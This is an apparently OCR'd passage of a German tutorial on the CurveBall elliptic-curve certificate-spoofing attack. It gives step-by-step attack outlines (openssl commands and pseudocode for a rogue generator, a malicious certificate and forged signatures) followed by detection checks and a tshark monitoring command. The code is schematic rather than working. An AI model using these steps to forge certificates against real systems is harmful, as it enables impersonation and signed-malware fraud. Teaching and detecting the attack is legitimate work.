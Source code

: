 
## 🎮 Praktische Exploitation

### Schritt-für-Schritt Angriff

#### 1. **CA-Zertifikat analysieren**
```bash
openssl x509 -in ca_cert.pem -text -noout
# Extrahiere Public Key Q der echten CA
```

#### 2. **Rogue Generator berechnen**
```python
# gen-key.py Implementation
Q = extract_public_key_from_ca()
chosen_private_key = 2  # Einfacher Wert
G_rogue = Q / chosen_private_key  # Modular inverse
```

#### 3. **Bösartiges Zertifikat erstellen**
```bash
# Erstelle Key mit expliziten (manipulierten) Parametern
openssl req -key rogue_key.pem -new -x509 -out malicious_cert.pem
```

#### 4. **Signatur erstellen**
```python
# Alles was mit dem rogue private key signiert wird,
# erscheint als von der echten CA signiert!
signature = sign_with_rogue_key(document)
```


## 🛡️ Erkennung und Schutz

### Wie erkennt man Curveball-Angriffe?

#### 1. **Zertifikat-Analyse**
```python
def check_for_curveball(cert):
    # Prüfe auf explicit curve parameters
    if cert.public_key().curve_name != "standard":
        return "SUSPICIOUS: Non-standard curve parameters"
    
    # Prüfe Generator-Punkt
    if cert.generator != STANDARD_GENERATORS[cert.curve]:
        return "ATTACK: Rogue generator detected!"
```

#### 2. **Netzwerk-Monitoring**
```bash
# Suche nach TLS-Verbindungen mit ungewöhnlichen Kurven
tshark -f "ssl" -T fields -e ssl.handshake.extensions_elliptic_curves
```
